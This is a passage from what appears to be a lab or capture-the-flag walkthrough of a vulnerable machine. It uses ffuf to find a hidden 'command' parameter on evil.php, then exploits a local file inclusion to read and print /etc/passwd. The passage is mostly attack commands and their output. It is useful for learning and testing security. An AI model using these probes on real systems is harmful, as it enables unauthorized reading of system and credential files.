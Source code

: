 Not much to really go on here either. Let's see if we can do some fuzzing. 

```console
# ffuf -c -r -u 'http://10.0.2.16/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.16/secret/evil.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

command                 [Status: 200, Size: 1398, Words: 13, Lines: 27]
:: Progress: [4686/4686] :: Job [1/1] :: 1576 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```

## Exploitation (LFI - Local file inclusion)

We find `command`. Let's try this in a web browser.

>http://10.0.2.16/secret/evil.php?command=/etc/passwd


```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```